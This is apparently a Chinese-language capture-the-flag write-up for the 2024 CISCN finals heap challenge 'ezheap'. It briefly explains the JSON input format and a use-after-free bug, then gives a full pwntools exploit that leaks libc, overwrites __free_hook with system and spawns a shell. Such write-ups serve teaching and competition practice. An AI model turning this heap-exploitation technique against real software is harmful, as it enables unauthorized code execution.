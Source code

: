 ![](https://mmbiz.qpic.cn/mmbiz_png/bkcWdoIicx2d45OcnNWU2ial3fMkzvqmoomKrDxbuceJYKNibMYRHDcAHt5Todvpm3h3wfqbEIx8e7zvk76ofym1g/640?wx_fmt=png&from=appmsg "")  
# 2024 ciscn决赛 ezheap  
## 程序保护  
  
![](https://mmbiz.qpic.cn/mmbiz_png/bkcWdoIicx2d45OcnNWU2ial3fMkzvqmoozWufuFdrvrN3Mec79GaQz0NRpLRI5ian3DvN0VGwZgFngXvtLHk2WXw/640?wx_fmt=png&from=appmsg "")  
## 漏洞分析  
  
![](https://mmbiz.qpic.cn/mmbiz_png/bkcWdoIicx2d45OcnNWU2ial3fMkzvqmooZwOm46DfbZfQIzWDbtYQYwaK23PPlicUiblD551eXPgWbQiajiaghyMT2A/640?wx_fmt=png&from=appmsg "")  
  
从这里可以看出来是有一个取值的过程，并且是相互对应的，如果没有取出来则会进入error退出程序  
  
而v10来源于v13经过处理函数，跟进这个函数发现：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/bkcWdoIicx2d45OcnNWU2ial3fMkzvqmooDic1ibKwaFbKOex2RFSaoibjt2YAnKlJSQvnTIdYtibRPMzl5TOdKPAlmg/640?wx_fmt=png&from=appmsg "")  
  
存在一些json格式的特征，像null false true这种就是json格式中的布尔值，同时也有闭合{}的检测 因此可以基本确定发送的是json格式  
### 交互脚本  
```
def add(size,cont):    payload='{'+'"choice":"new",'+'"index":1,'+f'"length":{size},'+'"message":'+'"'    payload=payload.encode()    payload+=cont    payload+=b'"'+b'}'    sl(payload)def delete(num):    payload = f'{{"choice":"rm","index":{num},"length":32,"message":"aaa"}}'    rl("Please input:")    sl(payload)def show(num):    payload = f'{{"choice":"view","index":{num},"length":32,"message":"aaa"}}'    rl("Please input:")    sl(payload)def edit(idx,len,cont):    payload='{'+'"choice":"modify",'+f'"index":{idx},'+f'"length":{len},'+'"message":'+'"'    payload=payload.encode()    payload+=cont    payload+=b'"'+b'}'    print(payload)    sl(payload)
```  
## 漏洞分析  
  
![](https://mmbiz.qpic.cn/mmbiz_png/bkcWdoIicx2d45OcnNWU2ial3fMkzvqmoouJ26vk7zgBn2MWT7e5iaEFyV9kI7NtfHLzkU7varh1SLpJ9GApAdBsQ/640?wx_fmt=png&from=appmsg "")  
  
没有置0 这里存在uaf漏洞 并且是2.31 存在uaf漏洞且没限制基本随便打了，这里难点就是因为是json的传输，导致泄露的时候会有一些干扰 我们要通过调试来调整传输的东西进行泄露  
## exp  
```
#!/usr/bin/python3from pwn import *import randomimport osimport sysimport timefrom pwn import *from ctypes import *#--------------------setting context---------------------context.clear(arch='amd64', os='linux', log_level='debug')#context.terminal = ['tmux', 'splitw', '-h']sla = lambda data, content: mx.sendlineafter(data,content)sa = lambda data, content: mx.sendafter(data,content)sl = lambda data: mx.sendline(data)rl = lambda data: mx.recvuntil(data)re = lambda data: mx.recv(data)sa = lambda data, content: mx.sendafter(data,content)inter = lambda: mx.interactive()l64 = lambda:u64(mx.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))h64=lambda:u64(mx.recv(6).ljust(8,b'\x00'))s=lambda data: mx.send(data)log_addr=lambda data: log.success("--->"+hex(data))p = lambda s: print('\033[1;31;40m%s --> 0x%x \033[0m' % (s, eval(s)))def dbg():    gdb.attach(mx)#---------------------------------------------------------# libc = ELF('/home/henry/Documents/glibc-all-in-one/libs/2.35-0ubuntu3_amd64/libc.so.6')filename = "./pwn"mx = process(filename)#mx = remote("0192d63fbe8f7e5f9ab5243c1c69490f.q619.dg06.ciihw.cn",43013)elf = ELF(filename)libc=elf.libc#初始化完成---------------------------------------------------------\def add(size,cont):    payload='{'+'"choice":"new",'+'"index":1,'+f'"length":{size},'+'"message":'+'"'    payload=payload.encode()    payload+=cont    payload+=b'"'+b'}'    sl(payload)def delete(num):    payload = f'{{"choice":"rm","index":{num},"length":32,"message":"aaa"}}'    rl("Please input:")    sl(payload)def show(num):    payload = f'{{"choice":"view","index":{num},"length":32,"message":"aaa"}}'    rl("Please input:")    sl(payload)def edit(idx,len,cont):    payload='{'+'"choice":"modify",'+f'"index":{idx},'+f'"length":{len},'+'"message":'+'"'    payload=payload.encode()    payload+=cont    payload+=b'"'+b'}'    print(payload)    sl(payload)add(0x400,b'a') #0add(0x400,b'a') #1delete(0)for i in range(6):    edit(0,0x400,b'a'*0x10)    delete(0)dbg()delete(1)add(0x60,b'') #2edit(2,1,b'\xe0')show(2)libc_addr=l64()-0x1ecbe0log_addr(libc_addr)libc.address=libc_addrsystem=libc.sym['system']free_hook=libc.sym['__free_hook']edit(0,0x8,p64(free_hook)[:6])add(0x400,b'a;/bin/sh')#edit(2,0x10,b'/bin/sh\x00')#add(0x400,b'a')edit(4,0x8,p64(system)[:6])delete(3)inter()
```  
  